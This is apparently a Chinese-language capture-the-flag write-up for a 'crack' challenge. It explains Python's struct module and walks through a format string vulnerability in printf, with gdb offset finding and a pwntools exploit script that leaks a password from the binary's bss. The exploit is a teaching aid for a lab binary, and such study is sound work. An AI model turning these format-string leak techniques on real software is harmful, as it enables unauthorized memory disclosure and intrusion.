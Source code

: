 - 用python struct处理二进制数据

  - struct模块中最重要的三个函数是pack(), unpack(), calcsize()

    ```python
    #  按照给定的格式(fmt)，把数据封装成字符串(实际上是类似于c结构体的字节流)
    pack(fmt, v1, v2, ...) 
    # 按照给定的格式(fmt)解析字节流string，返回解析出来的tuple
    unpack(fmt, string)       
    # 计算给定的格式(fmt)占用多少字节的内存
    calcsize(fmt)
    ```

    上述fmt中，支持的格式为：c（char），i（integer），f（float），d（double），s（string）等

##### 解题思路

通过格式化字符串漏洞【漏洞点：printf(&buf);】，泄露password【存储在bss 0x0804A048中】，得到shell。

经过gdb调试可以知道：

> gdb crack
>
> b printf
>
> r
>
> c

![输入"aa……aa"](C:\Users\asus\spidermana.github.io\assets\img\hitcon71.png)

![计算k](C:\Users\asus\spidermana.github.io\assets\img\hitcon72.png)

printf(&buf)中，buf的存储地址在`0xffffcf68`，距离第一个参数`0xffffcf44`，有0x24=36个字节。即9个4字节。因此<u>buf的存储地址在第10号参数位置</u>。

故而构造payload：

```python
password_addr = 0x804a048
r.sendline(p32(password_addr) + "*" + "%10$s" + "*" )
#找到第10个参数的位置，获取“0x804a048”，%s解析，解析出0x804a048位置的下的字符串值
#使用*是为了做标记，方便从字符串中提取出passwd
```

##### exp：

```python
from pwn import * 
import struct

context.log_level = 'debug'
r=process("./crack")
pass_addr = 0x0804A048

r.recvuntil("What your name ? ")
r.sendline(p32(pass_addr)+"*"+"%10$s"+"*")
r.recvuntil("*")
pw = r.recvuntil("*")  #用*来分隔passwd
print pw
passwd = struct.unpack('i',pw[:4])   #解析成int型，此后atoi(&nptr)才可以正常转化
print passwd      #元组
print passwd[0]   #取元组的第一个值，得到password
r.recvuntil("Your password :")
```